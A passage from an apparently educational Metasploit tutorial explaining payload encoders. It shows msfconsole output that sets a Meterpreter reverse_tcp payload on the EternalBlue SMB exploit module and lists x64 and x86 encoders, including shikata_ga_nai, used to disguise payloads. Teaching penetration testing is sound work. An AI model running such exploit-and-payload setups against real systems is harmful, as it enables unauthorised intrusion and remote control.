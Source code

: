 Source: [https://hatching.io/blog/metasploit-payloads2/](https://hatching.io/blog/metasploit-payloads2/)

If we want to look at the functioning of the `shikata_ga_nai` encoder, we can look at an excellent post [here](https://hatching.io/blog/metasploit-payloads2/).

Suppose we want to select an Encoder for an `existing payload`. Then, we can use the `show encoders` command within the `msfconsole` to see which encoders are available for our current `Exploit module + Payload` combination.

```
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload 15

payload => windows/x64/meterpreter/reverse_tcp

msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders

Compatible Encoders
===================

   #  Name              Disclosure Date  Rank    Check  Description
   -  ----              ---------------  ----    -----  -----------
   0  generic/eicar                      manual  No     The EICAR Encoder
   1  generic/none                       manual  No     The "none" Encoder
   2  x64/xor                            manual  No     XOR Encoder
   3  x64/xor_dynamic                    manual  No     Dynamic key XOR Encoder
   4  x64/zutto_dekiru                   manual  No     Zutto Dekiru
```

In the previous example, we only see a few encoders fit for x64 systems. Like the available payloads, these are automatically filtered according to the Exploit module only to display the compatible ones. For example, let us try the `MS09-050 Microsoft SRV2.SYS SMB Negotiate ProcessID Function Table Dereference Exploit`.

Encoders

```
msf6 exploit(ms09_050_smb2_negotiate_func_index) > show encoders

Compatible Encoders
===================

   Name                    Disclosure Date  Rank       Description
   ----                    ---------------  ----       -----------
   generic/none                             normal     The "none" Encoder
   x86/alpha_mixed                          low        Alpha2 Alphanumeric Mixedcase Encoder
   x86/alpha_upper                          low        Alpha2 Alphanumeric Uppercase Encoder
   x86/avoid_utf8_tolower                   manual     Avoid UTF8/tolower
   x86/call4_dword_xor                      normal     Call+4 Dword XOR Encoder
   x86/context_cpuid                        manual     CPUID-based Context Keyed Payload Encoder
   x86/context_stat                         manual     stat(2)-based Context Keyed Payload Encoder
   x86/context_time                         manual     time(2)-based Context Keyed Payload Encoder
   x86/countdown                            normal     Single-byte XOR Countdown Encoder
   x86/fnstenv_mov                          normal     Variable-length Fnstenv/mov Dword XOR Encoder
   x86/jmp_call_additive                    normal     Jump/Call XOR Additive Feedback Encoder
   x86/nonalpha                             low        Non-Alpha Encoder
   x86/nonupper                             low        Non-Upper Encoder
   x86/shikata_ga_nai                       excellent  Polymorphic XOR Additive Feedback Encoder
   x86/single_static_bit                    manual     Single Static Bit
   x86/unicode_mixed                        manual     Alpha2 Alphanumeric Unicode Mixedcase Encoder
   x86/unicode_upper                        manual     Alpha2 Alphanumeric Unicode Uppercase Encoder

```
